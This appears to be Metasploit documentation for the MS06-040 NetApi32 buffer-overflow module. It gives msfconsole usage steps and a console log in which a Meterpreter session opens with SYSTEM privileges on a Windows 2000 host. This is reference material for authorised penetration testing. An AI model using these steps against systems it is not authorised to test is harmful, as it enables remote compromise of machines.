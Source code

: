 ## Vulnerable Application

This module exploits a stack buffer overflow in the NetApi32 CanonicalizePathName() function using the NetpwPathCanonicalize RPC call in the Server Service. It is likely that other RPC calls could be used to exploit this service. This exploit will result in a denial of service on Windows XP SP2 or Windows 2003 SP1. A failed exploit attempt will likely result in a complete reboot on Windows 2000 and the termination of all MB-related services on Windows XP. The default target for this exploit should succeed on Windows NT 4.0, Windows 2000 SP0-SP4+, Windows XP SP0-SP1 and Windows 2003 SP0.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms06_040_netapi`
  3. Do: `set RHOSTS [IP]`
  4. Do: `set PAYLOAD [payload]`
  5. Do: `set LHOST [IP]`
  6. Do: `set LPORT [port]`
  7. Do: `run`

## Scenarios

### A run against Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```
  msf exploit(windows/smb/ms06_040_netapi) > use modules/exploit/windows/smb/ms06_040_netapi
  msf exploit(windows/smb/ms06_040_netapi) > set RHOSTS 192.168.1.2
  msf exploit(windows/smb/ms06_040_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
  msf exploit(windows/smb/ms06_040_netapi) > exploit

    [*] 192.168.1.2:445 - Detected a Windows 2000 target
    [*] 192.168.1.2:445 - Binding to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Bound to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Building the stub data...
    [*] 192.168.1.2:445 - Calling the vulnerable function...
    [*] Started bind TCP handler against 192.168.1.2:4444
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:39603 -> 192.168.1.2:4444) at 2019-12-02 11:48:52 -0700


  meterpreter > sysinfo
    Computer        : PC-B43791F5F5
    OS              : Windows 2000 (5.0 Build 2195).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
